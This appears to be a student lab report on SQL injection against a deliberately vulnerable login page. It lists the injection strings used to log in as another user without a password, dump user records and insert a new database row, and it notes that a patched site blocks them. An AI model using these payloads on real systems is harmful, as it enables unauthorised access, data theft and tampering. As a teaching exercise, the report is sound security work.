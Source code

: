 ## Project 4 Report

### Task 1
- **Goal**: Impersonate an exitsting user without providing the password.
- Command use: `Cat'#` 
  - This command exploits the vulnerability of the SQL injection in the login page.
- The picture below show that the command `Cat'#` has been executed successfully.

![Task1](Graphic/Task1.png)

### Task 2
- Steal the user information from the database.
- Command use: `Cat' OR '1==1'#`
- The picture below show that the command `Cat' OR '1==1'#` has been executed successfully.

![Task2](Graphic/Task2_Database.png)
### Task 3
- Insert a new record into the table. The following picture have the code I use to insert a new record into the table. I pretend to be user **David** to insert a new record into user **cat**'s table.
- Command use:

```sql
David'; INSERT INTO users(first, uname, passwd, profile) VALUES('cat', 'cat', PASSWORD('cat'),
 'Injection success')#
```
- The picture below show that the new record has been inserted successfully.

![Task3](Graphic/Task3_Injection.png)

- The picture below show the table after the new record has been inserted.

![Task3](Graphic/Task3_NewInfo.png)

### Task 4
- None of the attack shown above will work in the new website. Since the new website has been modified to prevent SQL injection attack. The following picture show that the command `Jacob'#` will not work in the new website.

![Task4](Graphic/Task4.png)